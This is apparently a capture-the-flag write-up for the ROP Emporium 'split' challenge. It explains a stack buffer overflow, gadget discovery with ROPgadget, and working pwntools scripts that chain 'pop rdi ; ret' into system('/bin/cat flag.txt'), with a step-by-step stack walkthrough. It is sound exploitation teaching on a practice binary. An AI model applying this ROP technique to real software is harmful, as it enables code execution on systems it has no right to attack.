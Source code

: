 # ROP Emporium | split

## Chaining Concepts

This challenge uses a lot of concepts from ret2win, like overwriting ret address to call other functions. This is similar, except we aren't given a direct `/bin/cat flag.txt` function.

---

## What Does Executing `split` Do?

We begin with what the execution of `./split` looks like:

![output](Screenshots/split_ter.png)

- On 39 'A's, works.
- On 40 'A's, illegal hardware instruction.
- On 41 'A's, seg fault. And that's what we're interested in, because that means the stack's ret address was overwritten and couldn't find an address to send the instruction pointer to.

---

## The Vulnerable Function

Now we see that in the `pwnme()` function, buffer is allotted 32 bytes but read 96 bytes. This means we have 64 bytes to play around with.

![pwnme](Screenshots/pwnme.png)

In Cutter there's a function that Cutter found called `UsefulFunction()`:

![output](Screenshots/usefulFunc.png)

Now in its decompiled form, we see that it moves the string `"/bin/ls"` into the `edi` register and calls `system()` at address `0x0040074b`. `system()` is a function that reads from the `rdi` register (`edi` being the lower 32 bits of `rdi`, which is 64 bits).

![output](Screenshots/usefunc_decomp.png)

So, let's jump to the start of `UsefulFunction()` using a return address overwrite:

```python
from pwn import *
p = process('./split')
junk = b'A' * 40 # to fill the buffer and rbp
usefulfunc = p64(0x00400743)

payload = junk + usefulfunc

p.recvuntil('>') # to wait until it asks for input
p.sendline(payload)
p.interactive()
```

And it successfully executes `/bin/ls` as expected:

![output](Screenshots/ls.png)

---

## Understanding the Strings

Where is the string `"/bin/ls"` coming from?

It's stored in the binary, and we can see all stored strings in the Strings section of Cutter. Just below we see another string `"/bin/cat flag.txt"` and its address is `0x00601060`, and that's the one we want to execute through calling `system()`.

![output](Screenshots/strings.png)

---

## Planning the Exploit

Since in `UsefulFunc` we move the address of `'/bin/ls'` to `edi`, we first need to load the address of our desired string (`"/bin/cat flag.txt"`) into the `rdi` register, which is how `system()` receives its argument.

We use something called **gadgets** for this — combinations of small assembly instructions ending with a `ret`. The `ret` ending makes it so that we can overwrite that `ret` and jump to another function easily.

We need to find a `pop rdi` instruction to clear the `rdi` and insert the string `"/bin/cat flag.txt"` into `rdi`. Then we can use a `ret` after it to jump to the call to `system()` part of `UsefulFunc` which will execute our command.

---

## Finding the Gadget

For finding gadgets, ROPgadget works better than Cutter’s search. So we use:

```bash
ROPgadget --binary split --depth 12 | grep 'pop rdi'
```

This returns:

```
0x00000000004007c3 : pop rdi ; ret
```

A perfect `pop rdi` followed directly by a `ret`.

---

## Final Payload

```python
from pwn import *
p = process('./split')

junk = b'A' * 40
system_addr = p64(0x0040074b)
bin_flag = p64(0x00601060)
pop_rdi_ret = p64(0x00000000004007c3)

payload = junk + pop_rdi_ret + bin_flag + system_addr
p.recvuntil('>')
p.sendline(payload)

p.interactive()
```


This is a bit confusing to take in all at once, so let's slowly walk through it.

---

## Understanding the Stack Layout

Before payload injection:

```
+---------------------------+
| old return address        | ← [rbp + 8]
+---------------------------+
| saved rbp                 | ← [rbp]
+---------------------------+
| buffer[40]                | ← [rbp - 40] to [rbp - 1]
+---------------------------+
```

After payload injection:

```
+---------------------------+
| addr of calls system()    | ← [rbp + 24]
+---------------------------+
| '/bin/cat flag.txt'       | ← [rbp + 16]
+---------------------------+
|  pop rdi ; ret            | ← [rbp + 8] - Our Gadget
+---------------------------+
| saved rbp 'A'             | ← [rbp]
+---------------------------+
| buffer[40] - 'A's         | ← [rbp - 40] to [rbp - 1]
+---------------------------+
```

---

## Execution Walkthrough

The way executions happen is by sending an instruction to the RIP (Instruction Pointer). When the RSP (stack pointer) points to a certain instruction on the stack, `rip = [rsp]` — here the contents of rsp are sent to rip — and the instruction is executed then rsp moves up by 8 bytes to the next value on the stack.

`ret` also performs this by popping `[rsp]` to `rip` and moving the `rsp` up to the next value on the stack.

### Before Execution

- `rsp = [rbp]`
- `rip = ret of pwnme()`
- `rdi = whatever` 


### Step 1: `ret` Moves Control to the Gadget

The original `ret` at the end of `pwnme()` pops the next value off the stack, which is the address of `pop rdi ; ret` and sends it to rip.

- `rip = 0x4007c3` (address of `pop rdi ; ret`)
- `rsp += 8` → now points to: `0x601060` (`"/bin/cat flag.txt"`)

---

### Step 2: `pop rdi` Executes

- Pops `0x601060` off the stack → `rdi = 0x601060`
- `rsp += 8` → now points to: `0x40074b`
- `rip` moves to the next instruction: `ret`

---

### Step 3: `ret` Executes

- Pops `0x40074b` off the stack → `rip = system()`
- `rsp += 8`

---

### Step 4: `system()` Executes

Now the program is executing `system()`. Since we just moved the string `"/bin/cat flag.txt"` into `rdi`, and `system()` uses `rdi` as its first argument (per calling convention), this works perfectly.

- `system(rdi)` → `system("/bin/cat flag.txt")`
- The flag is printed to stdout

---
---
![output](Screenshots/flag.png)
---
